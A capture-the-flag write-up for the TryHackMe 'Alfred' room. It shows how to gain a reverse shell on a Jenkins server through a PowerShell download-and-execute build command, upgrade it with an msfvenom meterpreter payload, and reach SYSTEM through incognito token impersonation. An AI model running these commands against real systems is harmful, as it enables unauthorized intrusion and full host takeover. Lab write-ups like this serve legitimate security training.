 Room: [Alfred](https://tryhackme.com/room/alfred)

Difficulty: Easy

Overview: This room is a semi-guided challenge. We are going to exploit a Jenkins server, gain an initial shell, then escalate privileges by exploiting Windows authentication tokens with meterpreter module incognito.

------------------------------------------------------------------------------------------------------------------------------------------------------------------

First we need to scan for all open ports using nmap, but since the machine doesn't respond to ping (ICMP) we need to adjust the scan:

```
nmap  -Pn -A -p- 10.10.101.250 -T4

-Pn   → Because the machine don't respond to ping
-A    → Enable OS detection, version detection, script scanning, and traceroute
-p-   → Scan all ports
-T4   → To speed the scan (this loses some accuracy), otherwise it would take more time to complete.
```

![Alfred_nmap_scan](https://user-images.githubusercontent.com/76821053/118020693-4ae2cd80-b352-11eb-8f5c-5e8250883d63.png)

The http at port 8080 hosted a jenkins server. We can try default credentials and this one was pretty simple.

![jenkins_8080](https://user-images.githubusercontent.com/76821053/118023732-c8f4a380-b355-11eb-8ea8-ee409d9ddc01.png)

We can created a new project inside Jenkins. At configurations we have a field called Build that let us do commands, so we can use the powershell command given by the room:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

In my case i used the below command, where i change the ip and port to match my machine.

```
powershell iex (New-Object Net.WebClient).DownloadString('http://My_IP:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress My_IP -Port 9001
```

To breakdown this command we can tell that the first part of the command will download a file from a specific website or server, in this case from my kali machine and the 
second part of the command tells the windows machine to execute it in order for us to get a reverse shell.

For this command to work and get a reverse shell on our machine we need to setup a few things:

-- Download Nishang "Invoke-PowerShellTcp.ps1" payload script provided by the room. Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security.

-- A python SimpleHTTPServer in order to host the file that the remote machine will try to donwload. We can do this by typing this command on a kali machine:

```
python -m SimpleHTTPServer
```

![pythonserver](https://user-images.githubusercontent.com/76821053/118032170-3fe26a00-b35f-11eb-919e-8483e5469701.png)

-- Start a netcat listener on the port we chose:

![nclistener](https://user-images.githubusercontent.com/76821053/118028995-9c438a80-b35b-11eb-8463-7b4c797b97d2.png)

After setting all up we just start a new project on jenkins server (in my case i called it admin), add the command to the build tab and just run it:   

![jenkinsproject](https://user-images.githubusercontent.com/76821053/118030688-88992380-b35d-11eb-89a6-74a434f02cb0.png)

We can see that the remote machine downloads the script and run it:

![pythonhttpserver](https://user-images.githubusercontent.com/76821053/118028046-85e8ff00-b35a-11eb-8d9c-32d510ae7b57.png)

Our listener recieves a reverse shell connection:

![image](https://user-images.githubusercontent.com/76821053/131248468-e25aedea-532e-4088-9712-9bd282dfeede.png)

To search for the flag or any specific file we can use the following command:

```
Get-ChildItem -Path C:\ -Recurse "user.txt" -ErrorAction SilentlyContinue

-Path  → Choose the path you want
-Recurse → To recursively search subdirectories  
-ErrorAction SilentlyContinue → To ignore errors
```

![image](https://user-images.githubusercontent.com/76821053/131248549-cfdf06bb-a839-4f28-9f46-be8db0b1e6e1.png)

We can now read the flag by using “type”:

![image](https://user-images.githubusercontent.com/76821053/131248555-010718a7-d90e-4611-bc37-c3073abb3be3.png)

Now let's upgrade our shell to a meterpreter one. To do so we need to create a payload:

```
msfvenom -p windows/meterpreter/reverse_tcp -f exe -e x86/shikata_ga_nai -o payload.exe LHOST=YOUR_IP_ADDRESS LPORT=CHOOSE_A_PORT
```

![image](https://user-images.githubusercontent.com/76821053/131249292-4efa51fe-c0cf-4e8d-be24-6f5972d5d5ea.png)

In this case i created a meterpreter .exe payload encoded with shikata_ga_nai. If we check the size of the payload we can answer on of the questions of the room.

To upload this payload to the target machine we need once again to host this file in a SimpleHTTPServer:

![image](https://user-images.githubusercontent.com/76821053/131248806-8c6499d4-59d5-43bc-b641-eb9b2fa93b30.png)

From the target machine we can request it with this powershell command:

![image](https://user-images.githubusercontent.com/76821053/131248869-353d8387-5417-47f7-a09c-51b318e122e4.png)

Now that we have the payload ready we need to start a meterpreter listener. So we are going to fire up metasploit.

We need to change some parameters to match our payload, ip address and port:

```
use multi/handler  → Choose exploit, in this case a listener

set payload windows/meterpreter/reverse_tcp  →  Set the same payload used in the our msfvenom payload

set LHOST your_ip_address  →  Choose your ip address

set LPORT payload_chosen_port  → Choose the same port has the payload that we created with msfvenom

options  →  To list all the available options

run  →  To start the listener
```

![image](https://user-images.githubusercontent.com/76821053/131249057-b7e4e405-8711-4645-887c-04ef0d547e59.png)

On the target machine we just have to run the payload.exe file:

```
.\payload.exe 

or

Start-Process “payload.exe”
```

![image](https://user-images.githubusercontent.com/76821053/131249240-10687032-47d2-4c79-a18d-dd7dc907934a.png)

Moments after we got a shell on the meterpreter session:

![image](https://user-images.githubusercontent.com/76821053/131249265-80c1e8fb-2b93-49ee-883b-9b56e565f3c6.png)

If you want to change the meterpreter shell to a regular one you can just type "shell". And, to back out just type "exit".

Before we can actually take full control of the system we can check what privileges the current user has:

```
whoami /priv
```

![image](https://user-images.githubusercontent.com/76821053/131886602-0fc697f7-5ca3-4df8-894a-f08e82f7f6af.png)

If we look closely there are two important privileges (SeDebugPrivilege and SeImpersonatePrivilege) enabled. And by using a module call "incognito" we can take advantage of this privileges and privesc vertically to NT Authority.

To load a module just use:

```
load incognito
```

![image](https://user-images.githubusercontent.com/76821053/131887372-becfb5c2-539a-4afa-a0f1-cd01bace22bd.png)

Now we need to check what tokens are available and use the a function called "impersonate_token" command to impersonate the Administrators token:

```
list_tokens -g
```

![image](https://user-images.githubusercontent.com/76821053/131887656-15e5862a-4355-4821-8c80-5b759401133d.png)

Since "BUILTIN\Administrators" token is available we just need to impersonate it:

```
impersonate_token "BUILTIN\Administrators"
```

![image](https://user-images.githubusercontent.com/76821053/131887920-d1ce7a11-bb96-4fd8-8da4-495be871f94f.png)

Success we are now "NT Authority\System"!

We have to ensure that we migrate our process to a process with correct permissions where the process is running by "NT Authority\System":

To list processes:

```
ps
```

![image](https://user-images.githubusercontent.com/76821053/131888441-6f8e19e1-3c4f-44c1-8bbf-1852f2a38ad8.png)

Migrating to a different process:

```
migrate 668
```

![image](https://user-images.githubusercontent.com/76821053/131888518-ecc9cad4-06ac-432b-b450-5c4d607001d5.png)

Now that we currently have the right process and permissions we can read the final flag of the room.

The flag is at "C:\Windows\System32\config":

![image](https://user-images.githubusercontent.com/76821053/131888701-f366c4ac-635b-45f3-af90-413fc6cff4cd.png)






